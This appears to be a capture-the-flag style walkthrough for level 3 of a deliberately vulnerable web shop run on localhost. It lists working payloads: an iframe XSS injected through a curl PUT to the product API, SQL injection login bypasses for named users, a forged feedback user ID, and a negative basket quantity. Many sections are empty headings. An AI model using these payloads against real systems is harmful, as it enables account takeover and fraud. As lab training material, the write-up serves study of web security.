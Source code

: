 # Level 3

## API Only XSS
We need to change the description of a product to <ifarame src=\"javascript:alert('xss')\">
To do this we need to know if we can change the value of a product:

```
curl -X OPTIONS -D - 'http://127.0.0.1:3000/api/products/6'
```

The response said us that we can use POST. Now we change the value of description.

```
curl -X PUT "http://localhost:3000/api/Products/1" -H "Content-Type: application/json" --data-binary '{"description":"<ifarame src=\"javascript:alert('xss')\">"}'
```

## Admin Registration

## Bjoern's Favorite Pet

## CAPTCHA Baypass

## Client-side XSS Protection

## Database Schema

## Forged Feedback

We need to login as an user and give a feedback. We need to intercept the request and than chage the UserId to an id number of another user.

```
{"UserId":2,"comment":"asdf","rating":3}
```

## Forged Review

## GDPR Data Erasure

## Login Amy

## Login Bender

It's a SQL injection on the login page:
```
' or 1=1 and email like('%bender%') --
```

## Login Jim

It's a SQL injection on the login page:
```
' or 1=1 and email like('%jim%') --
```
## Manipulate Basket

## Payback Time

To resolve this we need to order, as a normal user, a new product with a negative number as quantity:

```
{"ProductId":24,"BasketId":"5","quantity":-100}
```

than you need to continue with the payments.

## Privacy Policy Inspection

## Product Tampering

## Reset Jim's Password

## Upload Size

Send a small file then intercept with burp the request and sobstitute the smal file with a larger one. In the complaint page.

## Upload Type

## XXE Data Access
